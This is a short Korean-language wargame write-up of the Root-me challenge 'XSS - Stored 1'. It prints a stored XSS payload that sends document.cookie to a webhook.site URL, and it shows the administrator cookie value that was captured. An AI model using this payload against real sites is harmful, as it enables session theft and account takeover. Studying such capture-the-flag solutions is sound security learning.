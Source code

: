 ```yaml
---
title : XSS - Stored 1
categories : [Wargame, Root-me]
tags : [XSS]
---
```


## XSS - Stored 1
```
Author
g0uZ,  3 March 2012

Statement
Steal the administrator session cookie and use it to validate this chall.
```
<a href="https://webhook.site/" target="_blank">https://webhook.site/</a>을 이용하면 됨.

```
title : 아무거나 입력
Message : <script>location.href="webhook에서 받은 url?"+document.cookie;</script>
```
이렇게 보내주고 바로 확인을 했더니 안나오고 문제를 다시 보려해도 보낸 메시지 때문에 webhook으로 가버림.  
다음날 확인해보니 쿠키값이 전송되었음.  
```
?ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6
```

